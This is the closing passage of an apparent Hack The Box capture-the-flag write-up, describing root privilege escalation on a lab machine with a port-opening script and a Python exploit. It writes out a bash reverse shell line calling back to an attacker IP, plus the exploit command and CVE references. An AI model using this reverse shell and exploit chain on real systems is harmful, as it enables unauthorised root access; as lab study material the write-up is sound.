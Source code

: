 With the exploit transferred to the taget system, we will create `shell.sh` inside `/tmp` folder with the reverse shell payload inside of it:

```sh
#!/bin/bash
sh -i >& /dev/tcp/10.10.14.36/1337 0>&1
```

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/formulax/image-52.png)

With both the exploit and shell.sh prepared on the system, let's run `/usr/bin/office.sh` to open up port 2002:

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/formulax/image-61.png)

Now that port 2022 is open, let's run the exploit towards it:

`python3 exploit.py --host 127.0.0.1 --port 2002`

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/formulax/image-62.png)

As the exploit runs, `shell.sh` inside is also executed and we get reverse shell as the root:

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/formulax/image-63.png)


## References
- https://nvd.nist.gov/vuln/detail/cve-2022-24439
- https://github.com/gitpython-developers/GitPython/issues/1515
- https://community.librenms.org/t/adding-admin-users-on-librenms/20782
- https://www.exploit-db.com/exploits/46544
